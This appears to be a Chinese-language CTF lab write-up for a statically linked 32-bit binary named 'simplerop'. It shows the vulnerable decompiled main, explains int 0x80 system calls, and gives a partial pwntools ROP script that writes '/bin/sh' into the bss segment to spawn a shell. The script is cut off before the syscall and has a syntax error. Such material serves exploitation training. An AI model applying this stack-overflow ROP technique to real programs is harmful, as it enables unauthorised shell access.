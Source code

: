 ```python  
```  
  
## lab5  
```c  
int __cdecl main(int argc, const char **argv, const char **envp)  
{  
  int v4; // [esp+1Ch] [ebp-14h]  
  
  puts("ROP is easy is'nt it ?");  
  printf("Your input :");  
  fflush(stdout);  
  return read(0, &v4, 100);  
}  
```  
  
栈溢出，静态链接，没有`system`函数与`/bin/sh`只能自己构造。  
  
### int 0x80  
通过系统调用实现的hello world代码：  
```shell  
.section .data  
msg:  
        .ascii "Hello world!\n"  
.section .text  
.globl _start  
_start:  
        movl $4, %eax  
        movl $1, %ebx  
        movl $msg, %ecx  
        movl $13, %edx  
        int $0x80  
        movl $1, %eax  
        movl $0, %ebx  
        int $0x80  
```  
系统调用是通过int 0x80来实现的，eax寄存器中为调用的功能号，ebx、ecx、edx、esi等等寄存器则依次为参数  
所以需要将`/bin/sh`写入`bss`段，然后利用系统调用执行  
```python  
#coding=utf-8  
from pwn import *  
  
r = process("./simplerop)  
  
gadget = 0x809a15d # mov dword ptr [edx], eax ; ret  
pop_eax_ret = 0x80bae06  
pop_edx_ret = 0x806e82a  
pop_edx_ecx_ebx = 0x0806e850  
pop_eax_ret = 0x080bae06  
buf = 0x80ea060  
int_80 = 0x80493e1  
  
#write to memory  
payload = "a"*32  
payload += p32(pop_edx_ret)  
payload += p32(buf)  
payload += p32(pop_eax_ret)  
payload += "/bin"  
payload += p32(gadget)  
payload += p32(pop_edx_ret)  
payload += p32(buf+4)  
payload += p32(pop_eax_ret)  
payload += "/sh\x00"  
payload += p32(gadget)  
```